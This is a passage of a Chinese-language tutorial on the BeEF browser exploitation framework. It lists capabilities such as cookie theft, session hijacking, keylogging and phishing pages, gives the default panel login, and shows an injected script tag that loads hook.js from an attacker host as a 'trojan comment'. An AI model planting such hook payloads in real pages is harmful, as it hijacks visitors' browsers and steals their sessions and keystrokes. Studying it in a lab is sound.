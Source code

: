 信息收集：
1.网络发现
2.主机信息
3.Cookie获取
4.会话劫持
5.键盘记录
6.插件信息

持久化控制：
信息收集：
1.网络发现
2.主机信息
3.Cookie获取
4.会话劫持
5.键盘记录
6.插件信息

持久化控制：
1确认弹框
2.小窗口
3.中间人

社会工程：
1.点击劫持
2.弹窗告警
3.虚假页面
4.钓鱼页面

##### 6.2、BeEF基础

启动Apache和BeEF：

```linux
service apache2 start
```

> ![7-5](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210908220115.png)

![7-6](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210908220217.png)



> ==访问BeEF的网页==

```html
http://192.168.44.141:3000/ui/panel
登录账号：beef
登录密码：beef
```

> ==添加木马评论==

```html
<script src="http://192.168.44.141:3000/hook.js"></script>
<!--可以尝试注入多个操作系统-->
```

##### 6.3、信息收集
